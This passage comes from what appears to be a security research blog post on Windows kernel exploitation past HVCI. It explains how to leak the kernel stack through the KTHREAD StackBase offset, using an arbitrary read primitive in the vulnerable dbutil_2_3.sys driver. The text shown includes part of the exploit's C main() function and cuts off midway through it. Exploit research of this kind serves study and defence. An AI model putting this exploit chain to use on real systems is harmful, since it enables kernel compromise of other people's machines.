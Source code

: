 If we examine the contents of a `KTRHEAD` structure, we can see that `StackBase` is located at an offset of `0x38` within the `KTHREAD` structure. This means we can use our arbitrary read primitive to leak the stack address of the `KTHREAD` object by dereferencing this offset.

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI30.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI31.png" alt="">

We then can update `main()` to resolve `ntoskrnl.exe` and to leak our kernel-mode stack (while leaving `getchar()` to confirm we can leak the stack before letting the process which houses our "dummy thread" terminate.

```c
/**
 * @brief Exploit entry point.
 * @param Void.
 * @return Success (0) or failure (1).
 */
int main(void)
{
	//
	// Invoke getHandle() to get a handle to dbutil_2_3.sys
	//
	HANDLE driverHandle = getHandle();

	//
	// Error handling
	//
	if (driverHandle == (HANDLE)-1)
	{
		//
		// Print update
		//
		printf("[-] Error! Couldn't get a handle to dbutil_2_3.sys. Error: 0x%lx", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] Obtained a handle to dbutil_2_3.sys! HANDLE value: %p\n", driverHandle);

	//
	// Invoke getthreadHandle() to create our "dummy thread"
	//
	HANDLE getthreadHandle = createdummyThread();

	//
	// Error handling
	//
	if (getthreadHandle == (HANDLE)-1)
	{
		//
		// Print update
		//
		printf("[-] Error! Couldn't create the \"dummy thread\". Error: 0x%lx\n", GetLastError());

		//
		// Bail out
		//
```